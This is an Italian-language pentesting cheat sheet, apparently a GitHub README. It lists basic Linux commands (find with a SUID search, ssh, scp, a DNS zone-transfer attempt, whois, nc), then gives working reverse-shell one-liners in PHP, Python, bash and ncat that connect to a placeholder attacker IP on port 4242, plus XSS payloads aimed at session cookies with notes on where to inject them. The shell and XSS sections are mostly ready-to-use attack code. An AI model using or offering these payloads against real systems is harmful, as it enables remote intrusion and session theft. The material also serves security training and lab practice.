 # LISTA COMANDI UTILI

1. ###### FIND
   è il comando usato per trovare un file seguendo certi criteri
	- `find /`: inizia a cercare da root
	- `-user user1`: cerca file creato da utente user1
	- `-group group1`: cerca file creato da gruppo group1
	- `-size +6c -size -10c`: cerca file con dimensione maggiore di 6byte e minori di 10 byte
	- `-perm 4000`: cerca file con permessi utente root, se 2000 file avviato con privilegi del gruppo invece, che potrebbe essere root

2. ###### SSH
   è il comando per potersi collegare ad un computer in remoto
	- `ssh username@hostname`: connettiti ad IP = hostname usando username per credenziale d'accesso
	- `-p 2020`: utilizza la porta 2020 per la connessione

4. ###### SCP
   è il comando per trasferire file usando ssh
	- `scp username@hostname:/percorso/origine /percorso/destinazione/nome_file_di_destinazione`: prendi file dalla connessione ssh e salvalo in locale con nome nome_file_di_destinazione
	- `-r`: copia una intera directory

5. ###### HOST
   è il comando utilizzato per eseguire query DNS e ottenere informazioni sui nomi di dominio.
	- **`-t ns`**: specifica il tipo di record DNS che desideri ottenere. In questo caso, "ns" sta per "nameserver", quindi stai chiedendo di ottenere informazioni sui server dei nomi del dominio
	- **`-t mx`**: specifica il tipo di record DNS richiesto, in questo caso, "mx" per i record di scambio di posta (Mail Exchange)
	- `-l hostname.com nsztm2.digi.ninja`: prova un DNS Zone Transfer, utile per altre informazioni

6. ###### WHOIS
   è il comando per vedere informazioni sul possesso di un dominio o di un indirizzo IP. Potrebbe interessarti il "Name Server" per DNS Zone Transfer
	`whois esempio.com`: vedi le informazioni di esempio.com

7. ###### NC
    utile per creare client/server rapidamente. Ottimo per mandare i comandi alla macchina che stiamo attaccando
- ```nc -l 1234```: inizia ad ascoltare nella porta 1234
- ```nc 127.0.0.1 1234```: connettiti alla macchina con indirizzo 127.0.0.1 alla porta 1234


# SHELLS
### Reverse shell
Nella reverse shell è l'attacker che si mette in listening e la vittima si collega, quindi

### ATTACCANTE:

```
ncat -lvnp 4242
```

### VITTIMA:

#### php
```
php -r '$sock=fsockopen("IP_ATTACCANTE",4242);shell_exec("sh <&3 >&3 2>&3");'
```

#### python3
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_ATTACCANTE",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

#### bash

```
bash -i >& /dev/tcp/IP_ATTACCANTE/4242 0>&1
```

```
0<&196;exec 196<>/dev/tcp/IP_ATTACCANTE/4242; sh <&196 >&196 2>&196
```

```
/bin/bash -l > /dev/tcp/IP_ATTACCANTE/4242 0<&1 2>&1
```

#### netcat
```
ncat 10.0.0.1 4242 -e /bin/bash
```


# XSS
```<script>alert(document.cookie)</script>``` è quello che mediamente mi può interessare per idSession

1. prova a metterlo nella URL se puoi dopo il ?
2. prova a metterlo in un button come `onclick=alert(document.cookie)`
3. prova a metterlo nella URL dopo una GET/POST con `&<script>alert(document.cookie)</script>`
